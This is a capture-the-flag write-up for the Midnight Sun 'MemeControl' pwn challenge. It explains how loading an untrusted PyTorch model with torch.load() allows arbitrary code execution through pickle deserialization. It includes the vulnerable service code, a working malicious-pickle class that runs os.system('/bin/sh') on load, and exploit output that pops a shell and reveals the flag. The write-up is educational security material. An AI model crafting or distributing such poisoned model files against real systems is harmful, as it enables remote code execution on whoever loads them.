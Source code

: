 # MemeControl
#### Category: pwn

Description:
> Author: hfs
> TODO:
>
>
> flag: midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}

**Tags:** Python, PyTorch, Pickle Deserialization, Midnight Sun CTF

## Takeaways

Importing/Loading wild ML models can result in arbitrary code execution.

## Challenge

In this challenge we are given a piece of python code that expects a base64 encoded ML model, loads it and evaluates it. The evaluation in itself is not that interesting but PyTorch is well known to be insecure when loading a model from the wilderness.

As stated in the [documentation](https://pytorch.org/docs/stable/generated/torch.load.html#torch.load):


> **Warning**:
> `torch.load()` unless *weights_only* parameter is set to *True*, uses `pickle module` implicitly, which is known to be insecure. It is possible to construct malicious pickle data which will execute arbitrary code during unpickling. Never load data that could have come from an untrusted source in an unsafe mode, or that could have been tampered with. **Only load data you trust**

We can immediately recognize that the program is vulnerable to such an attack. In order to get remote code execution we just need to pop a shell during the unpickling. Perhaps by crafting it so that it executes `os.system('/bin/sh')`.

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

## Solution
Credits where they are due, we built our approach on the [patch-torch-save](https://github.com/yk/patch-torch-save) repo from `yk` that shows how to *poison* an existing model.

A model in itself is simply a dictionary, since we want to limit our payload as much as possible, and the actual usability of the model is of no concern, we define our model an plain dictionary. But an attacker could always use a legit large model. 

```python
super_ml_model: dict = {
    "Z":"T",
    "0":"T"
}
```

We define a `dict` subclass with a custom `__reduce__` function which will be called when the dict object will be pickled by `torch.save()`. 

`__reduce__` takes as a parameter a callable object that will be called to create the initial version of the object. In our case, we chose to simply use `exec` to execute any arbitrary code. Since there are no checks, our malicious code is as simple as it gets, the good ol' `os.system('/bin/sh')`.


```python
class BadDict(dict):

    def __init__(self, inject_src: str, **kwargs):
        super().__init__(**kwargs)
        self._inject_src = inject_src

    def __reduce__(self):
        return exec, (f'''{self._inject_src}''',), None, None, iter(self.items())

malicious_code = \
"""
import os
print("Hello from the other side! Popping a shell...")
os.system('/bin/sh')
"""

malicious_dict = BadDict(malicious_code, **super_ml_model)
torch.save(malicious_dict, "memecontrol.pth")
```

And we are all set! Now when the model will be unpickled by `torch.load()`, the malicious code will be executed. And we can simply cat the flag file.

```python
In [1]: import torch
In [2]: torch.load('./memecontrol.pth')
Hello from the other side! Popping a shell...
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```

## Final Exploit
`exploit.py` uses pwntools to automate the exploit both locally and remotely. Assuming you have all the required packages you can test the exploit locally with:
```bash
$ python3 exploit.py LOCAL

[*] Exporting malicious model. Code to be executed:
    import os
    print("Hello from the other side! Popping a shell...")
    os.system('/bin/sh')
[+] Starting local process '/home/ctfbox/.pyenv/shims/python3': pid 39565

8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 

Send the base64 encoded model: 
[*] Pushing payload: UEsDBAAACAgAAAAAAAAAAAAAAAAAAAAA...
[+] Evaluating the model ...
    Hello from the other side! Popping a shell...
[*] Switching to interactive mode
$ cat flag
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```


